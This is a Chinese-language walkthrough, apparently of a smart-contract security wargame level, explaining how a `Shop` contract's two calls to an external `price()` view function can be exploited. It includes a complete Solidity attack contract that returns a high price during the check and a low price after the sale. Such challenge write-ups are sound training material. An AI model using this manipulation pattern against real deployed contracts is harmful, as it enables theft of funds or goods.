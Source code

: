 漏洞在于 `buy()` 函数对外部合约 `_buyer` 的 `price()` 函数进行了两次调用：

1.  **第一次调用**: 在 `if` 条件判断中 `_buyer.price() >= price`。
2.  **第二次调用**: 在 `if` 块内部，用于更新 `price` 变量 `price = _buyer.price()`。

`Buyer` 接口将 `price()` 函数标记为 `view`，这通常意味着该函数不应改变状态。然而，EVM **并不强制 `view` 函数不能依赖于状态**。一个外部合约的 `view` 函数完全可以在两次调用之间返回不同的值，只要它的返回值依赖于某些在两次调用之间发生变化的状态。

我们的攻击思路如下：

1.  创建一个攻击合约，实现 `Buyer` 接口。
2.  在攻击合约的 `price()` 函数中加入逻辑：如果 `Shop` 合约的 `isSold` 状态为 `false`，则返回一个大于或等于100的值（例如101），以通过 `if` 检查。如果 `isSold` 为 `true`，则返回一个小于100的值（例如1）。
3.  当我们调用 `buy()` 时：
    *   `if` 条件检查：`isSold` 是 `false`，我们的 `price()` 返回 `101`。`101 >= 100` 为真，检查通过。
    *   进入 `if` 块：`isSold` 被设置为 `true`。
    *   更新 `price`：`price = _buyer.price()` 被调用。此时 `isSold` 已经是 `true`，所以我们的 `price()` 函数返回 `1`。`Shop` 合约的 `price` 变量被更新为 `1`。

这样，我们就成功地以低价买下了商品。

## 💻 Foundry 实现

### 攻击合约代码

攻击合约实现了 `Buyer` 接口，其 `price()` 函数根据 `Shop` 合约的 `isSold` 状态返回不同的值。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
    function isSold() external view returns (bool);
    function price() external view returns (uint);
    function buy() external;
}

contract Attack {
    IShop shop;

    constructor(address _shopAddress) {
        shop = IShop(_shopAddress);
    }

    // 这个 price 函数是攻击的核心
    function price() public view returns (uint256) {
        // 如果商品还没卖出，返回高价以通过检查
        // 如果已经卖出（在同一次 buy 调用中），返回低价来更新 price
        if (shop.isSold()) {
            return 1;
        } else {
            return 101;
        }
    }

    function attack() public {
        shop.buy();
    }
}
```

